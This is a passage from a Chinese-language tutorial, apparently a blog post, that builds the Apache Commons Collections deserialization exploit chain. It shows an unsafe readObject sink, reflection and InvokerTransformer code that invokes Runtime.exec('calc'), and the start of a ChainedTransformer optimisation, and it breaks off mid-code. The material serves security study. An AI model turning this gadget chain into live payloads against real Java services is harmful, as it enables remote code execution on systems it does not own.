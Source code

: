 ```plain
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }
}
```

### EXP 问题：

#### `Runtime`类不可实例化：

我们可以看到整条链子我们已经顺下来了，但是我们最后传入的 r = Runtime.getRuntime() 并没有 serializable 接口，不能够序列化，所以这里我们要进行反射调用，从 Runtime 的 class 属性入手进行反射

```plain
Class c = Runtime.class;
Method getRuntimeMethod = c.getMethod("getRuntime",null);
Runtime r = (Runtime) getRuntimeMethod.invoke(null,null);
Method execMethod = c.getMethod("exec",String.class);
execMethod.invoke(r,"calc");
```

然后我们来转化一下，用`InvokerTransformer`类中的`transform`方法来进行构造：

```plain
public Object transform(Object input) {
        if (input == null) {
            return null;
        }
        try {
            Class cls = input.getClass();
            Method method = cls.getMethod(iMethodName, iParamTypes);
            return method.invoke(input, iArgs);

        }
```

```plain
Method getRuntimeMethod = (Method) new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}).transform(Runtime.class);//获取 Runtime.getRuntime 方法

Runtime r = (Runtime) new InvokerTransformer("invoke",new Class[]{Object.class,Object.class},new Object[]{}).transform(getRuntimeMethod);//调用 Runtime.getRuntime 方法从而实例化 Runtime 类

InvokerTransformer invokerTransformer = new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"});//
invokerTransformer.transform(r);
```

然后我们还可以调用链式结构来优化这个代码：

```plain
public ChainedTransformer(Transformer[] transformers) {
        super();
        iTransformers = transformers;
    }

    /**
     * Transforms the input to result via each decorated transformer
     * 
     * @param object  the input object passed to the first transformer
     * @return the transformed result
     */
    public Object transform(Object object) {
        for (int i = 0; i < iTransformers.length; i++) {
            object = iTransformers[i].transform(object);
        }
```